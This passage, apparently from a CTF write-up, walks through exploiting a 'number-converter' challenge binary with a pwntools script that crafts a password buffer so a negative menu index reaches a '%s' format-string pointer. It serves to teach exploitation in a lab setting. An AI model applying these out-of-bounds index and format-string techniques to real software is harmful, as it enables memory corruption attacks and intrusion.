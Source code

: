 #### Practical
let's write a simple python script that implements the theory we discussed earlier.
```python
from pwn import *

p = process("./number-converter")
elf = ELF("./number-converter", checksec = 0)
libc = ELF("./libc-2.31.so", checksec = 0)

user = b"admin"

password = b"sup3rus3r"
password += b"\x00"
password += b"\x00" * 6
password += p64(0x4040d8) #password + 16
password += b"%s"
password += b"\x00" * 3

p.sendline(user)
p.sendline(password)
p.interactive()
```
( I switched to my VM for easier debugging.)

![4.png](https://github.com/retr0Rocks/retr0rocks.github.io/blob/master/_posts/pwn-root-me-ctf10k/4.PNG?raw=true)

Now , we successfully prepared the layout for the exploitation. 

![5.png](https://github.com/retr0Rocks/retr0rocks.github.io/blob/master/_posts/pwn-root-me-ctf10k/5.PNG?raw=true)

giving ``-1`` as the choice in the menu, we now accessed the format specifier in the ``formatters[-2]`` which is the pointer ``0x4040d8`` that points on ``%s``. Giving a large input nothing happens, since we are in a while loop we need just to break out of it.
```c++
        do
          v5 = getchar();
        while ( v5 != '\n' && v5 != (char)'\xFF' );
```
as the code do , we just give it a new line so it breaks.
